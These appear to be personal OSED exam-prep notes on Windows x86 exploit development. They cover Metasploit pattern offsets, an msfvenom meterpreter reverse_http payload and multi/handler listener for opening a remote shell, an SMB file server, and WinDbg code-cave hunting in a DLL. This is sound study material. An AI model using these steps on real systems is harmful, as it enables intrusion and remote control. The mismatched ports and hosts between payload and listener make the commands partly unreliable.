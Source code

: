 # x86Win-OSED-Notes

# Pattern generation:
```
$ msf-pattern_create -l 800
$ msf-pattern_offset -l 800 -q 42306142
```

# met payload:
```
$ msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=4343 -f exe -o met.exe

# Exploit after met.exe execution
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```

# smbserver:
```
sudo smbserver.py met /home/kali/ -smb2support
```

# Code cave search:
we can find the offset to the PE header by dumping the DWORD at offset 0x3C from the MZ header. Then, add 0x2C to the offset to find the offset to the code section
```
0:077> dd libeay32IBM019 + 3c L1
031f003c 00000108
0:077> dd libeay32IBM019 + 108 + 2c L1
031f0134 00001000
0:077> ? libeay32IBM019 + 1000
Evaluate expression: 52367360 = 031f1000
```
Use the !address command to collect information about the code section.
```
0:077> !address 031f1000
Usage: Image
Base Address: 031f1000
End Address: 03283000
Region Size: 00092000 ( 584.000 kB)
State: 00001000 MEM_COMMIT
Protect: 00000020 PAGE_EXECUTE_READ
Type: 01000000 MEM_IMAGE
Allocation Base: 031f0000
Allocation Protect: 00000080 PAGE_EXECUTE_WRITECOPY
```
Check for sufficient size for code cave
```
0:077> dd 03283000-400
03282c00 00000000 00000000 00000000 00000000
03282c10 00000000 00000000 00000000 00000000
03282c20 00000000 00000000 00000000 00000000
03282c30 00000000 00000000 00000000 00000000
03282c40 00000000 00000000 00000000 00000000
03282c50 00000000 00000000 00000000 00000000
03282c60 00000000 00000000 00000000 00000000
03282c70 00000000 00000000 00000000 00000000

0:077> ? 03283000-400 - libeay32IBM019
Evaluate expression: 601088 = 00092c00

0:077> !address 03282c00
Usage: Image
Base Address: 031f1000
End Address: 03283000
Region Size: 00092000 ( 584.000 kB)
State: 00001000 MEM_COMMIT
Protect: 00000020 PAGE_EXECUTE_READ
Type: 01000000 MEM_IMAGE
Allocation Base: 031f0000
Allocation Protect: 00000080 PAGE_EXECUTE_WRITECOPY
```
